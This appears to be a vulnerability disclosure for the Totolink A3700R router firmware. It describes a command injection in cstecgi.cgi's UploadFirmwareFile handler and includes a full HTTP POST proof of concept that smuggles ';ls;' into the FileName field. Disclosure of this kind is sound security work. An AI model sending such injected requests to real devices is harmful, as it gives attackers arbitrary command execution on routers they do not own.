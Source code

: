 
### **Overview**：
Affected Device: Totolink A3700R 
Affected Firmware Version: V9.1.2u.6165_20211012 
Vulnerability: Command Injection, allowing arbitrary command execution 
Firmware Download Link: [Firmware Download Link](https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip) 
Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)

![](Pasted%20image%2020231022165035.png)

### **Vulnerability**：

This vulnerability is located in the `cstecgi.cgi` function, specifically in the `FUN_0042f718` function alias known as `UploadFirmwareFile`.


![](Pasted%20image%2020231022165445.png)


The `cstecgi.cgi` uses the value of the `topicurl` parameter to handle different function interfaces. By constructing the `FileName` parameter, you can pass the encapsulated `doSystem` function, and since `doSystem` does not have input filtering, it is possible to achieve arbitrary command execution by constructing the right payload.


### **POC**:

To reproduce the vulnerability, you can use a real device or simulate it using QEMU. The following POC can be used to exploit it:


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
~~~

### **Impact**：

![](Pasted%20image%2020231022170210.png)